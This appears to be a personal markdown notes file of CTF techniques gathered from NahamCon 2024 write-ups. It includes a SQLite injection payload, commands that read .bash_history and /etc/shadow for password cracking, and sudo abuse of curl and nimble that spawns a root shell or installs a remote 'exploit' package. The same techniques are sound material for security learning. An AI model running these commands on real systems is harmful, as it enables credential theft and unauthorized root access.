 # This is a file i'll include things i didn't know and or find after reading some write-ups

## apps


- https://play.google.com/store/apps/details?id=com.arara.q


## sql injections

- ' || (SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'))--


## Privilege Escalation

### cat .bash_history

This might show what someone has already done.
Maybe shows passwords from sshpass.

### cat /etc/passwd | grep sh

This might show some other users, and we grep to what users have shells.

### sudo -l

shows what sudo accesses a users have

#### Nahamcon-2024/curly_fries challenge

For this challenge we logged in as user:userpass with ssh and found access to the fry users directory, including its history file, and found the fry user's password, making us able to switch to the fry user.

![sudo-l-picture](./pictures_for_extra/nahamcon-2024-curlly-fries-sudo-l.png)

This shows the user fry can execute a certain curl command as root without the need for a password.
Using `sudo curl 127.0.0.1:8000/health-check file:///etc/shadow`.
Then we can crack the hashes of the machine and pawn it.

See https://github.com/LazyTitan33/CTF-Writeups/blob/main/Nahamcon-2024/Misc/Curly_Fries.md

#### Nahamcon-2024/jack_be part 1

For this challenge we logged in as user:userpass with ssh.

![sudo-l-picture](./pictures_for_extra/nahamcon-2024-Jack-Be.png)

This shows the user jack can run a use nim run as root without a password.
So we create a nim project, and file that executes commands.

```bash
nimble init .

echo '#main.nim

import osproc

proc main() =
    let command = "/bin/bash"
    let result = execCmd(command)
    echo result

when isMainModule:
    main()'>./src/main.nim

chmod 777 .
nimble build
sudo -u jack /usr/bin/nimble run
```

And where in jack

#### Nahamcon-2024/jack_be part 2

In part 1 we logged in to another user.

![sudo-l-picture](./pictures_for_extra/nahamcon-2024-Jack-Be2.png)

From here we can continue with ```sudo -l``` and we can see we can use ```sudo nimble install *``` without a password and can continue escalating our privilege with package you made yourself.

```bash
sudo -l
sudo -u root /urs/bin/nimble install https://github.com/ThorD125/nim-exploit-lib
```

See https://game0v3r.vercel.app/blog/nahamconctf-miscellaneous

## extra s

Very specific case but still interesting.

### Make Self Extracting Sccript

If there is a file,
Including the hex data of the file to extract,
The following command can be used to write it to a file:
```tail -n 75 self_extractor > result```

### Iframe bruteforcing

```javascript
for (let index=0; index < 15; index++ ) {
    const url = `${window.location.href}/pathtobruteforce/${index}`;
    document.write(`${index}: ${url}`);
    document.write(`<iframe sandbox style="width: 100%" src="${url}"></iframe>`);
}```

### Fetch Enumerating

```javascript
for (let index = 0; index < 200; index++) {
    const url = `${window.location.href}/pathtobruteforce/${index}`;
    await fetch(url).then(r => {
        if(r.status!=404) console.log(url);
    });
}
```

### Curl Enumerating

- curl --silent --fail "https://example.com/[0-10]" -o "out/post_#1.txt" -s -w '%{url} %{http_code}\n
